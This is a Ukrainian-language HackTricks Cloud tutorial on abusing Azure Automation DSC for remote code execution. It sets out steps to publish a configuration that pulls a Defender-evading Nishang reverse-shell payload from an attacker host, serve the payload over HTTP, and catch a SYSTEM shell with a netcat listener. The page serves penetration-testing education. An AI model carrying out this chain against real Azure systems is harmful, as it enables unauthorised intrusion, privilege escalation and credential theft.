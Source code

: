 # Az - Конфігурація стану RCE

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

**Перевірте повний пост за посиланням: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Огляд підготовки і кроки інфраструктури віддаленого сервера (C2)

#### Огляд
Процес включає налаштування інфраструктури віддаленого сервера для розміщення модифікованого пакету Nishang `Invoke-PowerShellTcp.ps1`, під назвою `RevPS.ps1`, призначеного для обхіду Windows Defender. Пакет обслуговується з машини Kali Linux з IP-адресою `40.84.7.74`, використовуючи простий Python HTTP сервер. Операція виконується через кілька кроків:

#### Крок 1 — Створення файлів
- **Потрібні файли:** Потрібні два сценарії PowerShell:
1. `reverse_shell_config.ps1`: Файл конфігурації бажаного стану (DSC), який отримує та виконує пакет. Його можна отримати з [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Сценарій для публікації конфігурації на віртуальну машину, доступний на [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Налаштування:** Змінні та параметри в цих файлах повинні бути адаптовані до конкретного середовища користувача, включаючи назви ресурсів, шляхи до файлів та ідентифікатори сервера/пакету.

#### Крок 2 — Архівування файлу конфігурації
- Файл `reverse_shell_config.ps1` стискається в архівний файл `.zip`, щоб бути готовим для передачі до облікового запису Azure Storage.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Крок 3 — Встановлення контексту сховища та завантаження
- Зазипований файл конфігурації завантажується до попередньо визначеного контейнера Azure Storage, azure-pentest, за допомогою командлету Set-AzStorageBlobContent Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Крок 4 — Підготовка Kali Box
- Сервер Kali завантажує вантаж RevPS.ps1 з репозиторію GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Сценарій редагується для вказівки цільової віртуальної машини Windows та порту для зворотньої оболонки.

#### Крок 5 — Опублікувати файл конфігурації
- Виконується файл конфігурації, що призводить до розгортання сценарію зворотньої оболонки за вказаною локацією на віртуальній машині Windows.

#### Крок 6 — Розміщення вантажу та налаштування прослуховувача
- Запускається Python SimpleHTTPServer для розміщення вантажу, разом з прослуховувачем Netcat для захоплення вхідних підключень.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Заплановане завдання виконує вантаж, досягаючи привілеїв рівня SYSTEM.

#### Висновок

Успішне виконання цього процесу відкриває безліч можливостей для подальших дій, таких як витягування облікових даних або розширення атаки на кілька віртуальних машин. Посібник закликає до продовження навчання та креативності в галузі Azure Automation DSC.

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
